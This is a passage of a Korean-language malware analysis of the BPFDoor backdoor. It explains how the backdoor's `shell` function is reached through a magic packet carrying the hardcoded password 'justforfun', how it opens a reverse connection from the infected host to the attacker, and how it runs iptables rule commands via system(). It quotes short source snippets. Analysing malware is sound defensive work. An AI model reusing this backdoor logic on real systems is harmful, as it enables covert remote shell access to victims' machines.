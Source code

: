 6. **shell 함수 호출 및 클라이언트 소켓 닫기**

    ```c
    shell(sock, rcmd, dcmd);
    close(sock);
    ```

    - 생성한 클라이언트 소켓 fd(`sock`), 포트 리다이렉션 NAT 규칙 제거 명령 문자열(`rcmd`), TCP 연결 허용 규칙 제거 명령 문자열(`dcmd`)을 인자로 하여 `shell` 함수를 실행한다.
    - 이후에 클라이언트 소켓 닫는다.

<br>

### (주요 함수 분석) shell

- shell 함수는 다음의 2개의 위치에서 호출된다.

    1. `packet_loop` 함수 내에서 매직 패킷을 통해 전달된 비밀번호 값이 `justforfun`일 때, `try_link` 함수를 통해 생성된 TCP 소켓 인자로 하여 `rcmd`, `dcmd` 지정 없이 호출

        ```c
        scli = try_link(bip, mp->port);
        if (scli > 0)
            shell(scli, NULL, NULL);
        ```

        - 여기서 전달되는 `scli` 소켓은 다음의 상태를 가진다
            1. 연결을 시도하는 IP 주소
                - `magic_packet`에 지정된 IP 주소(`mp→ip`)

                or

                - 공격자의 IP 주소(`ip→ip_src.s_addr`)
            2. 연결을 시도하는 port
                - `mp->port`
            3. 최종 연결 방향
                BPFDoor가 설치된 시스템 (클라이언트) → 공격자(서버)


    2. `getshell` 함수 내부

<br>

1. **함수 시그니처**

    ```c
    int shell(int sock, char *rcmd, char *dcmd)
    ```

    - `sock`: 공격자와 통신하기 위해 이미 연결된 TCP 소켓의 파일 디스크립터
    - `rcmd`, `dcmd`: `getshell` 함수에서  전달되는 인자를 처리하기 위한 변수로, shell 함수 동작 후 가장 먼저 `system()` 함수를 통하여 실행한다.

2. **환경 변수 및 쉘 인자 설정**

3. **iptables 설정 부분(getshell 내에서 호출 시)**

    ```c
    if (rcmd != NULL)
        system(rcmd);
    if (dcmd != NULL)
        system(dcmd);
    ```
